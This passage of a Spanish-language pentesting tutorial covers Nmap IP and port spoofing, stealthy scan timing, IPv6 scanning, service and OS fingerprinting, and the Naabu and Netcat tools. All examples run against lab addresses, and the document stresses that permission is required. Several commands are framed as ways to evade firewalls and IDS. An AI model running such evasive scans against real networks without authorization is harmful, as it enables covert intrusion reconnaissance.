### 🧰 ¿Para qué sirve esta técnica?

- Ocultar al verdadero atacante.
- Probar detección de spoofing en firewalls o IDS.
- Simular ataques desde otras fuentes.
- Pruebas defensivas o de auditoría de red.

---

### 🚫 Limitaciones

- No recibirás respuestas si no tienes control sobre la IP spoofeada.
- Muchos routers y sistemas bloquean paquetes spoofeados.
- Necesitas **privilegios de root/admin** para hacerlo.
- Funciona mejor en redes locales o controladas.

---

### 🛠️ ¿Cómo instalar Nmap?

#### 🔹 Kali Linux / Ubuntu / Debian

```bash
sudo apt update
sudo apt install nmap -y
```

#### 🔹 macOS

```bash
brew install nmap
```

#### 🔹 Windows

1. Descarga desde: [https://nmap.org/download.html](https://nmap.org/download.html)
2. Instálalo como administrador.

---

### 🔐 ¿Cómo hacer spoofing de IP con Nmap?

Se usan estas opciones:

| Opción                   | Descripción                          |
| ------------------------ | ------------------------------------ |
| `-S <IP>`                | Falsifica la IP de origen (spoofing) |
| `--source-port <puerto>` | Falsifica el puerto de origen        |
| `-e <interfaz>`          | Especifica la interfaz de red a usar |
| `--data-length <bytes>`  | Agrega datos falsos al paquete       |

---

### 📘 Ejemplos prácticos

#### 🔹 1. Escaneo con IP spoofeada

```bash
sudo nmap -S 192.168.56.100 -e eth0 192.168.56.102
```

- `-S 192.168.56.100`: hace parecer que el escaneo viene desde esa IP.
- `-e eth0`: usas la interfaz de red que usará Nmap para enviar los paquetes.

🔎 Si 192.168.56.100 no es tu IP real, no recibirás respuesta.

---

#### 🔹 2. IP spoof + puerto de origen falsificado

```bash
sudo nmap -sS -S 192.168.56.100 --source-port 53 -e eth0 192.168.56.102
```

- Usa IP falsificada.
- Spoofea también el **puerto 53 (DNS)** para disfrazarse de tráfico legítimo.

---

#### 🔹 3. IP spoof + carga falsa

```bash
sudo nmap -sS -S 192.168.56.100 --data-length 100 -e eth0 192.168.56.102
```

- Agrega 100 bytes de datos falsos al paquete.
- Puede servir para evadir firewalls o IDS.

---

### 📘 Ejemplo completo y explicado

#### 🎯 Escenario

Tienes dos máquinas virtuales:

- Kali Linux (atacante): `192.168.56.101`
- Víctima (Windows o Linux): `192.168.56.102`
- IP a suplantar: `192.168.56.150` (otra máquina de la red o inventada)

---

#### 🧩 Paso 1: Verifica la IP de tu interfaz

```bash
ip addr show
```

Busca tu interfaz activa, por ejemplo: `eth0` o `ens33`.

---

#### 🧩 Paso 2: Ejecuta el escaneo con spoofing

```bash
sudo nmap -sS -S 192.168.56.150 -e eth0 --source-port 53 192.168.56.102
```

📌 Esto envía paquetes:

- Suplantando la IP `192.168.56.150`
- Usando el puerto 53 (parece tráfico DNS)
- A la víctima `192.168.56.102`

---

#### 🧩 Paso 3: Verifica con Wireshark (opcional)

Abre Wireshark en la red y filtra por:

```
ip.src == 192.168.56.150
```

Verás que los paquetes parecen **provenir de esa IP spoofeada**.

---

### 🎯 Resultado esperado

La máquina víctima recibirá paquetes SYN como si fueran de `192.168.56.150`.

⚠️ Pero tú no recibirás respuesta si esa IP no te pertenece (es lo esperado en spoofing real).

---

### ✅ Conclusión

| Técnica         | Resultado                                     |
| --------------- | --------------------------------------------- |
| `-S <IP>`       | Spoofea la IP de origen                       |
| `--source-port` | Spoofea el puerto de origen                   |
| `-e <interfaz>` | Especifica por dónde se enviarán los paquetes |

---

### 🛡️ Ética y legalidad

- **Nunca uses spoofing en redes ajenas sin permiso.**
- Practica en entornos controlados: VulnHub, TryHackMe, Hack The Box.
- Esta técnica es útil para **pentesters, investigadores de seguridad y defensores**.

---

[🔼](#índice)

---

## **277. Control de la velocidad de escaneo con Nmap**

### 🧠 ¿Qué significa "controlar la velocidad de escaneo"?

Cuando haces un escaneo con Nmap, puedes controlar **cuán rápido o lento** Nmap envía paquetes al objetivo. Esto te permite:

- Ser **más sigiloso** para evitar ser detectado por un firewall o un IDS.
- O bien, ser **más rápido** si estás haciendo pruebas en una red propia o segura.

---

### 🎯 ¿Por qué es importante?

- Si escaneas **demasiado rápido**, un firewall o IDS puede **bloquearte** o detectar la intrusión.
- Si escaneas **demasiado lento**, puede tomar mucho tiempo en redes grandes.
- Controlar la velocidad te da **flexibilidad para adaptarte a diferentes entornos** (pruebas internas, pentesting, ejercicios de laboratorio, etc.).

---

### 📦 ¿Cómo se instala Nmap?

#### 🔹 En Linux (Debian, Ubuntu, Kali)

```bash
sudo apt update
sudo apt install nmap -y
```

#### 🔹 En macOS

```bash
brew install nmap
```

#### 🔹 En Windows

1. Descarga desde [https://nmap.org/download.html](https://nmap.org/download.html)
2. Instálalo como administrador (opcional: incluye **Zenmap**, la interfaz gráfica).

---

### ⚙️ Opciones para controlar la velocidad en Nmap

| Opción           | Qué hace                                            |
| ---------------- | --------------------------------------------------- |
| `-T<0-5>`        | Ajusta el **modo de velocidad** (template timing)   |
| `--scan-delay`   | Establece un **retraso entre paquetes**             |
| `--max-rate`     | Limita el **número máximo de paquetes por segundo** |
| `--min-rate`     | Establece el **mínimo de paquetes por segundo**     |
| `--host-timeout` | Tiempo máximo dedicado a cada host                  |

---

### 🚦 Modos de velocidad con `-T`

Nmap tiene 6 niveles predefinidos de velocidad. Van del **más lento y sigiloso** al **más rápido y ruidoso**:

| Opción | Nivel          | Uso                                                   |
| ------ | -------------- | ----------------------------------------------------- |
| `-T0`  | **Paranoid**   | Extremadamente lento. Ideal para evitar detección.    |
| `-T1`  | **Sneaky**     | Muy lento, útil en entornos hostiles.                 |
| `-T2`  | **Polite**     | Más lento para no saturar la red.                     |
| `-T3`  | **Normal**     | Valor por defecto. Equilibrado.                       |
| `-T4`  | **Aggressive** | Más rápido. Ideal en redes confiables.                |
| `-T5`  | **Insane**     | Extremadamente rápido. Puede causar falsos positivos. |

> 📌 **Recomendación**:
>
> Usa `-T3` o `-T4` para redes conocidas.
>
> Usa `-T1` o `-T2` si estás tratando de evitar ser detectado.

---

### 🔬 Otras opciones útiles

#### 🔹 `--scan-delay <tiempo>`

Establece un retraso manual entre cada paquete enviado.
Ejemplo:

```bash
--scan-delay 500ms
```

> Paquete cada 0.5 segundos.

---

#### 🔹 `--max-rate <pps>`

Limita cuántos paquetes por segundo (pps) puede enviar.
Ejemplo:

```bash
--max-rate 100
```

> Máximo 100 paquetes por segundo.

---

#### 🔹 `--min-rate <pps>`

Obliga a Nmap a mantener una velocidad mínima.
Ejemplo:

```bash
--min-rate 50
```

> Mínimo 50 paquetes por segundo.

---

### 🧪 Ejemplos simples

#### 🔹 1. Escaneo lento y sigiloso

```bash
nmap -sS -T1 192.168.56.102
```

- Escaneo SYN muy lento (modo Sneaky).
- Difícil de detectar.

---

#### 🔹 2. Escaneo rápido en red confiable

```bash
nmap -sS -T5 192.168.56.102
```

- Súper rápido.
- Ruidoso (fácilmente detectable por IDS).

---

#### 🔹 3. Escaneo con retardo personalizado

```bash
nmap -sS --scan-delay 1s 192.168.56.102
```

- Espera 1 segundo entre paquetes.
- Muy sigiloso.

---

#### 🔹 4. Escaneo con límite de velocidad

```bash
nmap -sS --max-rate 50 192.168.56.102
```

- Envía máximo 50 paquetes por segundo.
- Más control sobre el tráfico.

---

### 📘 Ejemplo completo y explicado

#### 🎯 Escenario

- Red local: 192.168.56.0/24
- Máquina víctima: `192.168.56.102`
- Objetivo: escanear puertos abiertos **de forma sigilosa**.

---

#### ✅ Paso 1: Comando final

```bash
nmap -sS -p 22,80,443 --scan-delay 800ms --max-retries 2 --host-timeout 1m -T2 192.168.56.102
```

#### ✅ ¿Qué hace?

| Opción               | Significado                                   |
| -------------------- | --------------------------------------------- |
| `-sS`                | Escaneo SYN                                   |
| `-p`                 | Escanea puertos 22, 80 y 443                  |
| `--scan-delay 800ms` | Espera 800 ms entre paquetes                  |
| `--max-retries 2`    | Reintenta solo 2 veces si no hay respuesta    |
| `--host-timeout 1m`  | Si tarda más de 1 min, pasa al siguiente host |
| `-T2`                | Modo educado (Polite), evita saturación       |

---

### 🔐 Resultado esperado

```txt
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp closed https
```

✔️ Escaneo controlado, lento, más difícil de detectar por un IDS.

---

### 🧠 Resumen rápido

| Técnica                     | Uso                                      |
| --------------------------- | ---------------------------------------- |
| `-T0` a `-T5`               | Control básico de velocidad              |
| `--scan-delay`              | Control manual del tiempo entre paquetes |
| `--max-rate` / `--min-rate` | Límite de velocidad (pps)                |
| `--host-timeout`            | Tiempo máximo por host                   |
| `--max-retries`             | Cuántas veces reintentar                 |

---

### 🛡️ Consejos finales

- En pentesting, **empieza lento** y luego ajusta.
- No uses `-T5` en redes ajenas sin permiso.
- Si estás en un entorno controlado (como VulnHub, HackTheBox), puedes experimentar con todas las velocidades.

---

[🔼](#índice)

---

## **278. Escaneos en IPv6 con Nmap**



### 🧠 ¿Qué es IPv6?

IPv6 es la **versión más reciente del protocolo IP** y reemplaza a IPv4 porque este último se está quedando sin direcciones.
Las direcciones IPv6 tienen este formato:

```
2001:0db8:85a3:0000:0000:8a2e:0370:7334
```

También se pueden abreviar así:

```
2001:db8:85a3::8a2e:370:7334
```

IPv6 ya está presente en muchas redes modernas (servidores, ISP, dispositivos IoT, etc.), y **Nmap soporta escaneos en IPv6** con algunas diferencias respecto a IPv4.

---

### 📦 Instalación de Nmap (si no lo tienes)

#### 🔹 En Linux (Debian, Ubuntu, Kali):

```bash
sudo apt update
sudo apt install nmap -y
```

#### 🔹 En macOS:

```bash
brew install nmap
```

#### 🔹 En Windows:

1. Descarga desde: [https://nmap.org/download.html](https://nmap.org/download.html)
2. Instálalo como administrador.

---

### ✅ Requisitos para escanear IPv6

Para escanear en IPv6, necesitas:

- Que el objetivo tenga una dirección IPv6 conocida y activa.
- Que tu equipo también tenga conectividad IPv6.
- Usar la opción `-6` en todos los comandos de Nmap.

---

### 🛠️ Comandos básicos para IPv6 con Nmap

#### ✅ Sintaxis general:

```bash
nmap -6 <dirección_IPv6>
```

> El `-6` **activa el modo IPv6**, obligatorio cuando escaneas direcciones de este tipo.

---

### 🔬 Ejemplos sencillos

#### 🔹 1. Ping scan IPv6

Verifica si el host está activo (como `nmap -sn` en IPv4):

```bash
nmap -6 -sn 2001:db8::1
```

---

#### 🔹 2. Escaneo de puertos TCP estándar

```bash
nmap -6 2001:db8::1
```

- Escanea los 1000 puertos TCP más comunes en esa dirección IPv6.

---

#### 🔹 3. Escaneo de puertos específicos

```bash
nmap -6 -p 22,80,443 2001:db8::1
```

- Escanea los puertos 22 (SSH), 80 (HTTP) y 443 (HTTPS).

---

#### 🔹 4. Escaneo agresivo IPv6

```bash
nmap -6 -A 2001:db8::1
```

Activa:

- Detección de sistema operativo
- Versiones de servicios
- Traceroute
- Scripts NSE básicos

---

### 🚀 Ejemplo completo y funcional

#### 🎯 Escenario

Tienes conectividad IPv6 en tu equipo, y un servidor (o VM) con dirección:

```bash
2001:db8:abcd:1234::10
```

Quieres hacer un escaneo completo y descubrir puertos, servicios, y versiones.

---

#### ✅ Comando final:

```bash
sudo nmap -6 -sS -A -T4 -p- 2001:db8:abcd:1234::10
```

#### ✅ ¿Qué hace?

| Opción | Función                                    |
| ------ | ------------------------------------------ |
| `-6`   | Activa escaneo IPv6                        |
| `-sS`  | Escaneo SYN (rápido)                       |
| `-A`   | Análisis agresivo (OS, servicios, scripts) |
| `-T4`  | Escaneo rápido (pero fiable)               |
| `-p-`  | Escanea todos los 65535 puertos            |

---

#### ✅ Resultado esperado (ejemplo ficticio):

```txt
Nmap scan report for 2001:db8:abcd:1234::10
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.2p1 Ubuntu
80/tcp    open   http       Apache httpd 2.4.41
443/tcp   open   ssl/http   Apache httpd 2.4.41

OS details: Linux 5.4 - 5.8
```

---

### 🎯 Tip extra: Escaneo de múltiples hosts IPv6

Puedes escanear más de una dirección:

```bash
nmap -6 -sS 2001:db8::1 2001:db8::2 2001:db8::3
```

O usar un archivo con direcciones IPv6:

```bash
nmap -6 -iL ipv6_hosts.txt
```

---

### ⚠️ Notas importantes

1. No puedes usar nombres de dominio **IPv4-only** con `-6`.

   - Asegúrate de que el dominio tenga un **registro AAAA** (IPv6).
   - Ejemplo válido:

     ```bash
     nmap -6 google.com
     ```

     Solo si `google.com` tiene un registro AAAA.

2. Algunos scripts y opciones de Nmap pueden **no funcionar en IPv6** si requieren IPv4 (por ejemplo, traceroute más detallado).

3. Escanear redes enteras con IPv6 no es viable como en IPv4:

   - Una red IPv6 tiene **demasiadas direcciones posibles (2^64 por subred)**.
   - En vez de eso, escanea hosts conocidos con IPv6.

---

### 🧠 Resumen rápido

| Comando | Acción                                    |
| ------- | ----------------------------------------- |
| `-6`    | Activa escaneo en modo IPv6               |
| `-sn`   | Escaneo solo de ping                      |
| `-p`    | Especifica puertos                        |
| `-A`    | Escaneo agresivo (OS, servicios, scripts) |
| `-sS`   | Escaneo SYN (rápido)                      |

---

[🔼](#índice)

---

## **279. Escaneo avanzado de servicios y SO**

### 🧠 ¿Qué es un escaneo avanzado de servicios y sistema operativo?

Cuando haces un escaneo simple con Nmap, puedes descubrir **qué puertos están abiertos**.

Pero un escaneo **avanzado** te dice:

✅ Qué servicios corren en esos puertos

✅ Qué versiones específicas tienen (por ejemplo, Apache 2.4.41)

✅ Qué sistema operativo (y versión) usa la máquina (por ejemplo, Linux Ubuntu 20.04)

> Esto es **crítico en auditorías de seguridad** o pentesting porque te da información para saber **cómo atacar o proteger** un sistema.

---

### 📦 ¿Cómo instalar Nmap?

#### 🔹 En Linux (Debian, Ubuntu, Kali, etc.)

```bash
sudo apt update
sudo apt install nmap -y
```

#### 🔹 En macOS

```bash
brew install nmap
```

#### 🔹 En Windows

1. Descarga desde [https://nmap.org/download.html](https://nmap.org/download.html)
2. Instálalo como administrador.
3. Puedes usar también **Zenmap**, que es la interfaz gráfica de Nmap.

---

### 🔍 ¿Qué opciones de Nmap permiten hacer escaneos avanzados?

#### Las más importantes:

| Opción     | ¿Qué hace?                                                  |
| ---------- | ----------------------------------------------------------- |
| `-sV`      | Detección de versiones de servicios                         |
| `-O`       | Detección del sistema operativo                             |
| `-A`       | Escaneo agresivo: combina `-sV`, `-O`, traceroute y scripts |
| `--script` | Ejecuta scripts NSE (detección y explotación)               |

---

### 🔬 Ejemplos simples

#### 🔹 1. Detectar servicios y versiones

```bash
nmap -sV 192.168.1.10
```

🔎 Resultado:

```txt
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2
80/tcp   open  http    Apache httpd 2.4.41
```

---

#### 🔹 2. Detectar sistema operativo

```bash
sudo nmap -O 192.168.1.10
```

🔎 Resultado:

```txt
Running: Linux 5.X
OS details: Linux 5.4 - 5.8
```

> 💡 Requiere privilegios (sudo) y puertos abiertos.

---

#### 🔹 3. Escaneo agresivo (todo en uno)

```bash
sudo nmap -A 192.168.1.10
```

Esto ejecuta:

- Detección de SO (`-O`)
- Detección de versión (`-sV`)
- Traceroute
- Scripts NSE básicos

---

#### 🔹 4. Escaneo de todos los puertos y servicios

```bash
sudo nmap -sS -sV -O -p- 192.168.1.10
```

- `-sS`: escaneo SYN (rápido)
- `-p-`: escanea todos los 65535 puertos

---

### 🧪 Scripts NSE (Opcional, pero poderoso)

Puedes usar `--script` para usar los **scripts NSE** de Nmap. Ejemplos:

```bash
nmap -sV --script=banner 192.168.1.10
```

Otros scripts útiles:

```bash
--script=ssl-cert          # Verifica certificados SSL
--script=http-enum         # Enumera recursos HTTP
--script=smb-os-discovery  # Detección de SO vía SMB
--script=ftp-anon          # Verifica acceso anónimo en FTP
```

---

### ✅ Ejemplo completo y explicado

#### 🎯 Escenario

Tienes una máquina con IP `192.168.1.10` y quieres:

- Detectar todos los servicios
- Saber las versiones
- Saber qué sistema operativo usa
- Obtener más información sin saturar la red

---

#### Comando final:

```bash
sudo nmap -sS -sV -O -p- --script=banner -T4 192.168.1.10
```

#### 🔍 ¿Qué hace cada parte?

| Opción            | Función                               |
| ----------------- | ------------------------------------- |
| `-sS`             | Escaneo SYN (rápido y sigiloso)       |
| `-sV`             | Detecta versiones de servicios        |
| `-O`              | Detecta sistema operativo             |
| `-p-`             | Escanea todos los puertos             |
| `--script=banner` | Intenta leer banners de los servicios |
| `-T4`             | Escaneo más rápido (pero seguro)      |

---

#### 🔎 Resultado esperado:

```txt
PORT      STATE  SERVICE  VERSION
21/tcp    open   ftp      vsftpd 3.0.3
22/tcp    open   ssh      OpenSSH 8.2p1 Ubuntu
80/tcp    open   http     Apache httpd 2.4.41
3306/tcp  open   mysql    MySQL 5.7.33

OS details: Linux 5.4 - 5.8 (Ubuntu 20.04)

Banner grab:
80/tcp: Server: Apache/2.4.41 (Ubuntu)
```

---

### 🚀 ¿Y si quiero guardar el resultado?

Puedes exportarlo con:

```bash
nmap -sV -O -oN resultado.txt 192.168.1.10
```

- `-oN`: guarda en formato legible (normal)
- También puedes usar `-oX` (XML) o `-oG` (greppable)

---

### ⚠️ Recomendaciones

- Siempre usa `sudo` para obtener mejor precisión en detección de SO.
- El escaneo de todos los puertos (`-p-`) puede demorar más tiempo.
- Si un firewall está presente, puedes agregar opciones de evasión (como `--source-port`, `-f`, etc.)

---

### 🧠 Resumen rápido

| Objetivo                   | Comando                                       |
| -------------------------- | --------------------------------------------- |
| Detectar versiones         | `nmap -sV IP`                                 |
| Detectar SO                | `sudo nmap -O IP`                             |
| Todo en uno                | `sudo nmap -A IP`                             |
| Puertos completos + script | `sudo nmap -sS -sV -O -p- --script=banner IP` |

---

[🔼](#índice)

---

## **280. Alternativas a Nmap: Naabu y Netcat**

### ¿Por qué buscar alternativas a Nmap?

**Nmap** es extremadamente completo, pero a veces necesitas:

- **Escaneo masivo y muy rápido de puertos en grandes superficies de ataque** → _Naabu_ brilla aquí (SYN / CONNECT / UDP, entrada por dominios, CIDRs, ASN, salida JSON, integración con Nmap para profundizar solo donde hay puertos abiertos). ([docs.projectdiscovery.io][2], [GitHub][1])
- **Pruebas manuales rápidas, banner grabbing, transferencias simples, crear listeners, depurar sockets, escanear rangos pequeños** → _Netcat_ (nc) clásico / OpenBSD nc / _Ncat_ (la versión moderna del proyecto Nmap, con TLS, proxy y soporte IPv4/IPv6) son la “navaja suiza” de TCP/UDP desde la línea de comandos. ([nmap.org][3], [man.openbsd.org][4])

---

### Resumen comparativo rápido

| Herramienta                       | Para qué es mejor                                            | Ventajas clave                                                                                                                                         | Cuándo usarla                                                                 |
| --------------------------------- | ------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------- |
| **Naabu**                         | Enumeración **rápida de puertos** en grandes listas de hosts | Escaneos SYN/CONNECT/UDP; top-ports; salida JSON; integración con Nmap; soporte IPv4/IPv6 (experimental). ([docs.projectdiscovery.io][2], [GitHub][1]) | Recolección inicial de superficie de ataque antes de un análisis profundo.    |
| **Netcat / nc**                   | Interacción manual con puertos y servicios                   | Conectar, escuchar, escanear rangos, enviar/recibir datos (TCP/UDP), transferir archivos. ([man.openbsd.org][4])                                       | Depuración puntual, pruebas rápidas de servicio, scripting sencillo.          |
| **Ncat** (Netcat moderno de Nmap) | Todo lo anterior + funciones modernas                        | IPv4/IPv6, TCP/UDP, TLS/SSL, proxy (SOCKS/HTTP), encadenamiento, binarios listos en paquetes Nmap (Win/Mac/Linux). ([nmap.org][3])                     | Cuando necesitas Netcat “mejorado” multiplataforma, especialmente en Windows. |

---

### Instalación de **Naabu**

Naabu se distribuye como código Go y como binarios precompilados. Requiere una biblioteca de captura de paquetes (libpcap) para escaneos de bajo nivel (SYN). ([GitHub][1])

#### Instalación con Go

Si tienes Go reciente instalado:

```bash
go install -v github.com/projectdiscovery/naabu/cmd/naabu@latest
```

(O en versiones nuevas del repositorio: `github.com/projectdiscovery/naabu/v2/cmd/naabu@latest` según la rama actual.) Después de compilar, el binario queda en `~/go/bin/naabu` (asegúrate de agregarlo a tu `$PATH`). ([docs.projectdiscovery.io][5], [GitHub][1])

#### Agregar al PATH (Linux/macOS)

```bash
echo 'export PATH=$PATH:$HOME/go/bin' >> ~/.bashrc
source ~/.bashrc
```

Esto hace que puedas ejecutar `naabu` desde cualquier carpeta. ([docs.projectdiscovery.io][5])

#### Instalación desde binario

Descarga el último release para tu sistema operativo desde la página de lanzamientos de Naabu, descomprime y ejecuta el binario. ([docs.projectdiscovery.io][5])

#### Recomendaciones de ejecución

- Instala `libpcap` (Linux: `sudo apt install -y libpcap-dev`; macOS: `brew install libpcap`) antes de usar Naabu para escaneos SYN. ([GitHub][1])
- Ejecutar como **root** mejora la capacidad de enviar paquetes sin restricciones (especialmente SYN raw). Los desarrolladores recomiendan hacerlo para mejores resultados. ([docs.projectdiscovery.io][6], [GitHub][1])
- Si escaneas desde una máquina local (no VPS), reduce la tasa de paquetes (`-rate`) para no saturar tu red. ([docs.projectdiscovery.io][6])

---

### Instalación de **Netcat / Ncat**

Hay múltiples sabores:

- **nc.openbsd** (la reimplementación moderna con soporte IPv6, proxies y sockets Unix). ([man.openbsd.org][4], [Ask Ubuntu][7])
- **netcat-traditional** (la versión “clásica”; menos funciones modernas pero incluye la opción `-e` en algunos empaquetados). ([Ask Ubuntu][7])
- **Ncat** (del proyecto Nmap): Netcat “para el siglo XXI” con soporte TCP/UDP, IPv4/IPv6, TLS/SSL, proxies, encadenamiento y binarios incluidos en los paquetes oficiales de Nmap para Linux, Windows y macOS. ([nmap.org][3])

#### Linux (Debian/Ubuntu/Kali)

Instala la variante OpenBSD (suele ser la predeterminada):

```bash
sudo apt update
sudo apt install netcat-openbsd -y
```

Si necesitas la tradicional:

```bash
sudo apt install netcat-traditional -y
sudo update-alternatives --config nc   # elegir versión por defecto
```

La documentación de Ubuntu destaca que la versión OpenBSD añade IPv6, soporte de proxy y sockets Unix; la tradicional carece de varias de esas funciones pero incluye `-e` en algunos builds. ([Ask Ubuntu][7])

#### macOS

Las distribuciones modernas incluyen `nc` estilo OpenBSD; si no, puedes instalar/actualizar con Homebrew:

```bash
brew install netcat
```

(OpenBSD nc soporta IPv4/IPv6, TCP/UDP, escucha, escaneo, proxies, etc.). ([man.openbsd.org][4])

#### Windows

La opción más limpia y mantenida es instalar **Nmap**, que incluye **Ncat** (binarios para Windows, con soporte TLS y proxy). ([nmap.org][3])

---

### Uso esencial de **Naabu** (descubrimiento rápido de puertos)

Naabu está diseñado para **enumerar puertos válidos de manera veloz y fiable** en hosts individuales, listas, CIDRs o incluso ASNs. Puede usar escaneos SYN, CONNECT o UDP; selecciona puertos completos o listas top; produce salida en texto, JSON o CSV. ([docs.projectdiscovery.io][2], [GitHub][1])

#### Escaneo básico de un host

```bash
naabu -host ejemplo.com
```

Por defecto escanea los **Top 100 puertos** (lista basada en Nmap). ([GitHub][1])

#### Escanear todos los puertos

```bash
naabu -p - -host ejemplo.com
```

`-p -` = rango completo 1-65535. ([GitHub][1])

#### Escanear puertos específicos y rangos (TCP + UDP)

```bash
naabu -p 80,443,21-23,u:53 -host ejemplo.com
```

`u:53` indica puerto UDP 53. ([GitHub][1])

#### Excluir puertos

```bash
naabu -p - -exclude-ports 80,443 -host ejemplo.com
```

Escaneo completo excepto los especificados. ([GitHub][1])

#### Escanear lista de hosts

```bash
naabu -list hosts.txt
```

Permite entrada masiva (dominios/IPs). ([GitHub][1])

#### Salida JSON (útil para automatizar)

```bash
naabu -host 203.0.113.5 -json
```

Produce líneas JSON `{ "ip": "...", "port": ... }` por hallazgo. ([GitHub][1])

#### Control de velocidad

`-rate <pps>` controla paquetes por segundo; ajusta menor en redes locales según recomendaciones de los desarrolladores. ([docs.projectdiscovery.io][6], [GitHub][1])

#### Integración con Nmap

Tras encontrar puertos abiertos puedes lanzar un comando Nmap para fingerprint de servicios:

```bash
echo ejemplo.com | naabu -nmap-cli 'nmap -sV'
```

Naabu construye una lista de puertos encontrados y ejecuta Nmap con el comando indicado. ([docs.projectdiscovery.io][6], [GitHub][1])

---

### Uso esencial de **Netcat / Ncat** (interacción manual)

El comando `nc` (Netcat) sirve para _casi todo_ lo relacionado con TCP/UDP: abrir conexiones salientes, escuchar puertos, enviar paquetes, escanear rangos y transferir archivos; soporta IPv4/IPv6 en la versión OpenBSD. ([man.openbsd.org][4])

**Ncat**, la versión moderna del proyecto Nmap, extiende esos casos con soporte SSL/TLS, proxies SOCKS/HTTP, encadenamiento y binarios multiplataforma listos (incluidos con Nmap). ([nmap.org][3])

#### Comprobar conexión a un servicio

```bash
nc -v objetivo 80
```

Con `-v` verás si conecta y puedes escribir manualmente una petición HTTP para inspeccionar la respuesta. El man page muestra cómo “hablar” directamente con servicios para diagnosticar. ([man.openbsd.org][4])

#### Escaneo de puertos con Netcat

```bash
nc -z objetivo 20-30
```

`-z` (“zero I/O mode”) reporta qué puertos aceptan conexión sin enviar datos; ideal para un chequeo rápido. Ejemplo documentado en el man page. ([man.openbsd.org][4])

#### Obtener banners de varios puertos

Puedes encadenar con `echo` o `printf` y un timeout para capturar saludos de servicios:

```bash
echo "QUIT" | nc objetivo 25
```

El manual muestra cómo recuperar banners SMTP y SSH de múltiples puertos con un breve timeout. ([man.openbsd.org][4])

#### Servidor de escucha (listener)

```bash
nc -l -p 1234 > recibido.bin
```

Desde otra máquina:

```bash
nc host_remoto 1234 < archivo.bin
```

El man page incluye ejemplo de transferencia de archivos usando modo escucha y redirección de stdin/stdout. ([man.openbsd.org][4])

#### Seleccionar versión / comportamientos

En Ubuntu puedes alternar entre `netcat-openbsd` (más funciones modernas: IPv6, proxy, Unix sockets) y `netcat-traditional` (histórica; incluye `-e` en algunos empaquetados). Usa `update-alternatives` para elegir. ([Ask Ubuntu][7])

#### Ncat con TLS y proxy (ejemplo)

```bash
ncat --ssl www.ejemplo.com 443
```

Ncat agrega soporte integrado para TLS/SSL, IPv4/IPv6 y conexiones vía proxy (SOCKS o HTTP CONNECT) más capacidades de redirección compleja, todo dentro del paquete Nmap. ([nmap.org][3])

---

### Flujo de trabajo combinado: _Naabu → Netcat → (Opcional) Nmap_

**Objetivo:** Escanear rápidamente muchos hosts, identificar puertos abiertos y luego inspeccionar manualmente servicios críticos.

1. **Descubrimiento masivo**: Usa Naabu con `-top-ports 1000` o `-p -` según el tamaño del objetivo; salida JSON para script. ([GitHub][1])
2. **Filtrado**: Parseas resultados y seleccionas puertos sensibles (SSH, RDP, DB, Web). (Proceso tuyo; Naabu ya entrega lista). ([GitHub][1])
3. **Validación / Banner grabbing**: Usa Netcat/Ncat para conectarte a cada puerto y extraer banners o enviar comandos mínimos; la documentación muestra hablar “a mano” con servidores y recuperar banners. ([man.openbsd.org][4], [nmap.org][3])
4. **Fingerprint profundo**: Lanza Nmap con `-sV` o escaneo agresivo usando la integración automática de Naabu (`-nmap-cli`). ([docs.projectdiscovery.io][6], [GitHub][1])

---

### Laboratorio completo paso a paso (Naabu + Netcat + Nmap)

**Escenario de práctica (recomendado en laboratorio o red interna controlada):**

- Tu máquina atacante (Kali o Ubuntu): `192.168.56.101`
- Tres máquinas objetivo de laboratorio (Linux/Windows apps): `192.168.56.110`, `192.168.56.120`, `192.168.56.130`
- Ya instalaste Naabu y Netcat / Ncat (ver secciones anteriores). Naabu requiere libpcap y permisos altos para SYN escaneos confiables. ([GitHub][1], [docs.projectdiscovery.io][6])

---

#### Crear lista de hosts

`hosts.txt`:

```
192.168.56.110
192.168.56.120
192.168.56.130
```

---

#### Escaneo rápido “top 1000” con Naabu

```bash
sudo naabu -list hosts.txt -top-ports 1000 -rate 500 -o puertos.txt
```

- `-top-ports 1000` usa la lista popular de puertos (basada en Nmap). ([GitHub][1])
- Reduce `-rate` para redes locales (recomendación de los desarrolladores al no usar VPS). ([docs.projectdiscovery.io][6])

Salida típica (`puertos.txt`):

```
192.168.56.110:22
192.168.56.110:80
192.168.56.120:445
192.168.56.130:21
192.168.56.130:8080
```

---

#### (Opcional pero recomendable) Escaneo profundo automático con Nmap

Usa integración Naabu → Nmap:

```bash
cat hosts.txt | naabu -top-ports 1000 -nmap-cli 'nmap -sV -O -Pn'
```

Naabu detecta puertos abiertos, construye la lista y ejecuta Nmap con el comando indicado (`-sV` versión de servicios, `-O` detección de SO). ([docs.projectdiscovery.io][6], [GitHub][1])

---

#### Validación manual con Netcat / Ncat

#### Ver banner HTTP en `192.168.56.110:80`

```bash
printf "HEAD / HTTP/1.0\r\n\r\n" | nc -v 192.168.56.110 80
```

El man page de nc muestra cómo “hablar” manualmente con servicios (ej. HTTP) para ver cabeceras y banners. ([man.openbsd.org][4])

#### Probar rango SMTP/SSH rápido (suponiendo puertos 22 y 25)

```bash
nc -zv 192.168.56.130 20-30
```

La opción `-z` reporta qué puertos aceptaron conexión en el rango dado (ejemplo documentado). ([man.openbsd.org][4])

#### Conexión cifrada con Ncat (si el servicio usa TLS)

```bash
ncat --ssl 192.168.56.120 443
```

Ncat soporta TLS/SSL y funciona igual en Windows/Linux/Mac, ideal para depurar servicios HTTPS o sockets cifrados. ([nmap.org][3])

---

#### Transferir un archivo de prueba (comprobando conectividad)

En **host destino** (por ejemplo 192.168.56.110) escucha y guarda lo recibido:

```bash
nc -l -p 9000 > recibido.txt
```

En tu máquina atacante:

```bash
nc 192.168.56.110 9000 < notas.txt
```

El manual de nc incluye este patrón de transferencia de archivos usando redirección estándar entre un listener (`-l`) y un cliente. ([man.openbsd.org][4])

---

### Buenas prácticas

- Empieza con tasas bajas en Naabu si trabajas desde tu laptop doméstica; incrementa gradualmente. Los autores recomiendan ajustar `-rate` fuera de entornos VPS. ([docs.projectdiscovery.io][6])
- Usa JSON en Naabu para automatizar pipelines y reducir errores de parseo. ([GitHub][1])
- Usa Netcat/Ncat para verificar manualmente antes de lanzar pruebas intrusivas: el man page enfatiza su utilidad en _network daemon testing_ y depuración directa de servicios. ([man.openbsd.org][4], [nmap.org][3])
